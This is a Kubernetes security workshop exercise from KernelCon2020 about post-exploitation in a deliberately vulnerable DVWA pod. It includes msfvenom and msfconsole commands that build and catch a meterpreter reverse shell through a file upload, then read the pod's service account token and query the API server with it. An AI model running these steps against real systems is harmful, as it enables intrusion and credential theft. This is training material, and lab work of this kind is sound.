




# Exercise 15 (Access Control)

## Preface:
This exercise is not meant to provide you with an extensive "hacking" experience! We all know the majority of pen testing issues come from misconfiguration. Therefore we assume this container is exploitable so we will focus on post exploitation. If you do not wish to do any of the ___metasploit___ steeps, just skip to [This section](#shell) to pick it up at the shell.

Note you will still need to setup the container etc.

### Env Setup
- cd into the ``` KernelCon2020K8s/Exercises/Break/Files/break_e15 ``` folder and deploy the pod we will be working with.

```bash
kubectl apply -f setup.yaml
```
- this should deploy the needed resources including ingress.
- once running you should be able to access the site through the ingress port [https://k8s.kernelcon2020.org/](https://k8s.kernelcon2020.org/)
- login with the credentials ___"admin"___ and ___"admin"___



- once logged in, scroll to the bottom and click the "Create / Reset DB" button to initialize the DB



- When that task is complete, log back in as ___admin___ and ___password___

- continue to "MSF Setup" if you wish to breach the container via remote shell. 
- or skip down to the [Shell](#shell)

### MSF Setup

- build a meterpreter payload and put it on your desktop
- make it executable
- Make sure msf is setup and installed correctly
- enter the msfconsole

```bash
# prep the env.

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$(ifconfig eth0 |grep -i "inet " |awk '{print $2}') LPORT=4545 -f elf > ~/Desktop/rshell
chmod 0777 ~/Desktop/rshell
apt update; apt install metasploit-framework
gem install bundler
msfconsole
```

- Good now that you are in the msf console, we should setup a handler and payload
- add our eth0 IP and a port to the options
- set the ExitOnSession to false
- start listening for sessions.

```bash
### form inside msfconsole, start a 
msf> use exploit/multi/handler
msf> set payload linux/x86/meterpreter/reverse_tcp
msf> set lhost YOUR_ETH0_IP_ADDRESS
msf> set lport 4545
msf> set ExitOnSession false
msf> exploit -j
```

# Setup remote shell
- from within the "DVWA" gui, locate the "file upload" button and click it.



- you should have an ___msfvenom___ payload on your Desktop for earlier, upload it and take not of the destination.



- you should see a session start as soon as you run the command
- enter the session, then enter the shell
- spawn a new tty

```bash
### once seeeion is open
sessions 1

### in session
shell

### spawn new tty
/bin/sh -i

```
# Shell

#### Note by default (unless you change it) k8s will auto mount the default service account for a namespace INTO EVERY POD in that namespace!!!

#### you can get at this info from inside the container via the file system @ ```/run/secrets/kubernetes.io/serviceaccount/token``` and you can get the api-server info via the two environment variables ___$KUBERNETES_SERVICE_HOST___ ___$KUBERNETES_SERVICE_PORT___

```bash
### is curl here ?

curl -k https://$KUBERNETES_SERVICE_HOST/api/v1/namespaces/default/pods/

### nope! but apt is ;-)

apt-get update && apt-get install curl

### now that we have curl we can grab the service account that was automaticly mounted into the container ...
export TOKEN=$(cat /run/secrets/kubernetes.io/serviceaccount/token)

### now that we have a token we can check our permissions

curl -k -H "Authorization: Bearer $TOKEN" https://$KUBERNETES_SERVICE_HOST/api/v1/namespaces/default/pods/


```


## Review:


## Clean up:

 [Return to schedule](../../Docs/SCHEDULE.md)